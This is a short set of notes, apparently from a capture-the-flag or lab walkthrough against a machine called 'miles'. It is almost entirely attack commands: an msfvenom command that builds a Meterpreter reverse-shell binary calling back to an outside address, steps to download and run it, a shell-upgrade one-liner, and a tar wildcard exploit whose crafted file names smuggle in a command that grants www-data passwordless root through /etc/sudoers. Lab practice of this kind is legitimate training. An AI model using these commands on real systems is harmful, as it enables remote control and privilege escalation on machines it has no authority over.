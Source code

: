 create a msvenom payload for linux
```
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.4.36.140 LPORT=9999 -f elf -o reverse.elf
```

download onto miles using wget and run
python3 -c ‘import pty;pty.spawn(“/bin/bash”)’

echo ‘echo “www-data ALL=(root) NOPASSWD: ALL” >> /etc/sudoers’ > sudo.sh
touch "/var/www/html/--checkpoint-action=exec=sh sudo.sh"
touch "/var/www/html/--checkpoint=1"

tar wildcard exploit 

